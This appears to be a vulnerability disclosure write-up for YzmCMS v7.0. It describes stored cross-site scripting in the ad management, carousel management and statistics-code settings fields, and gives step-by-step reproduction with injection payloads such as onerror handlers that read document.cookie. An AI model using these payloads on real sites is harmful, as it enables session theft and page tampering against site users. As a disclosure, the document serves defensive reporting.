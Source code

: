 YZMCMS(v7.0) has multiple vulnerabilities， Cross Site Scripting(XSS)



The YzmCMS v7.0 content management system has multiple storage-optimized XSS vulnerabilities.
The vulnerability detection process is as follows:



Location of the vulnerability: Module Management -> Ads Management

1、Click Edit and select HTML as the ad type.

```
payload1:<img src=x onerror="(‘asen-xss’)">
payload2:<img src=x onerror="alert(document.cookie)">
```

![image-20240307171414528](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307171414528.png)

![image-20240307172042478](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307172042478.png)

Registered members test1, triggered after visiting the homepage.

![image-20240307171729207](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307171729207.png)

![image-20240307172143798](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307172143798.png)



2、In the edit ad, select any ad type, and there is a stored XSS in the concise description.

```
payload:"><img src=x onerror="alert(document.cookie)">
```

![image-20240307172540484](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307172540484.png)

Triggered when this ad is edited.

![image-20240307172652200](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307172652200.png)

![image-20240307172703790](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307172703790.png)



Location of the vulnerability: Module Management - > Carousel Management - > Add Carousel - > Edit

1、Stored XSS instances exist in the title name.

```
payload：test"><img src=x onerror="alert(document.cookie)">
```

![image-20240307173045097](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173045097.png)

After saving, it is triggered by accessing the carousel management interface.

![image-20240307173140344](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173140344.png)

Editing the corresponding carousel is also triggered.

![image-20240307173222137](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173222137-170980394376410-170980394533612.png)



2、XSS is stored at the link address, which cannot be changed after being written, and the malicious code can only be eliminated by deleting the carousel.

(1) XSS is triggered only once.

```
payload：http://test"<img src=x onerror="alert(‘asen-xss2’)">
```

![image-20240307173504611](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173504611.png)

![image-20240307173521960](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173521960.png)

At this point, we went to modify the link address again, and found that the change failed anyway.

![image-20240307173557228](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173557228.png)



(2) XSS is triggered multiple times.

```
payload: test"><img src=x onerror="alert(document.cookie)">
```

If you enter payload twice at the link address, the first XSS will not be triggered, and after the second entry is saved, the carousel management will trigger multiple XSS, and the editing will also trigger multiple XSS.

After the first entry, the result:

![image-20240307173730558](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173730558.png)

Second Input:

![image-20240307173759891](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307173759891.png)

The result of the second input after saving:

![image-20240307180614783](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180614783.png)

![image-20240307180630702](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180630702.png)

![image-20240307180641733](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180641733.png)



3、The carousel in the edit has xss stored in it.

```
payload: test"<img src=x onerror="alert('asen-xss2')">
```

![image-20240307180803850](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180803850.png)

![image-20240307180815072](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180815072.png)



4、Edit - > briefly states that there is a storage XSS

```
payload: test</textarea><img src=x onerror="alert('asen-xss3')"><textarea>
```

![image-20240307180924680](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180924680.png)

Once submitted, click Edit in this carousel again to trigger it.

![image-20240307180958342](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307180958342.png)



Location of the vulnerability: Background Management - > System Management - > System Settings

1、Basic Settings - > at the statistics code

```
payload:<img src=x onerror="alert(‘asen-xss3’)">
```

![image-20240307181217683](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307181217683.png)

Triggered when you visit the homepage.

![image-20240307181307602](C:\Users\zls52\Desktop\study笔记\new\Yzmcms-xss\image-20240307181307602.png)



Suggestion: The vendor changed the code to filter the input parameters.